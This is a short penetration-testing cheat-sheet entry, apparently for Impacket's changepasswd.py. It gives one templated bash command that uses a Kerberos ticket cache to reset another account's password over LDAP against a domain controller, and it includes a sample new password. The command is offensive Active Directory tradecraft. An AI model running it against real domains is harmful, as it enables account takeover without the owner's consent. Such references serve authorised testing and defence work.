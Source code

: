 # changepasswd

% impacket-other, windows, kerberos, 88, misc

## change user password (ldap reset)
#plateform/linux  #target/remote  #protocol/ldap 
```bash
export KRB5CCNAME=<ccache> ; changepasswd.py  -k -no-pass -protocol ldap -reset -newpass '<password|Zaebuj12345+->' -dc-ip <domain_fqdn> <domain_fqdn>/<target_account>@<dc-ip>
```
